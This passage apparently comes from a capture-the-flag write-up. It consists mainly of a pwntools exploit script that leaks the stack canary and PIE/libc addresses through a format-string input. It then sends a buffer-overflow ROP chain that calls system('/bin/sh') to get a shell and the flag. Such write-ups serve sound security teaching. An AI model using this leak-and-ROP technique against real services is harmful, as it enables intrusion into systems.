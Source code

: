 ```python
p.sendline(b'1')
print(p.recv())
p.sendline(b'2')
p.sendlineafter(b'Red or Green Kryptonite?\n', b'%13$p %15$p %25$p')
leak = p.recv() .split(b'\n')
leak = leak[0].split(b' ')
canary = int(leak[0],16)
base = int(leak[1],16) - 0x174a
lism = int(leak[2],16) - 0x021b97 #Server Offset
log.info(f'Canary : {hex(canary)}')
log.info(f'Base : {hex(base)}')
log.info(f'Libc Start : {hex(lism)}')

#Drain Money <20.00
order(6)

#Call the BOF function
p.sendline(b'1')
p.recv()
p.sendline(b'2')
p.recv()
p.sendline(b'Red')
p.recv()

#PAYLOAD
rdi = base + 0x18bb
ret = base + 0x1016

payload = b'a'*24
payload+= p64(canary)
payload+= b'a'*8
payload+= p64(rdi)
payload+= p64(lism + 0x1b40fa)
payload+= p64(ret)
payload+= p64(lism + 0x04f4e0)

p.sendline(payload) 

p.interactive()
```

Just Like that, we got the flag :relaxed:.

<p align=center>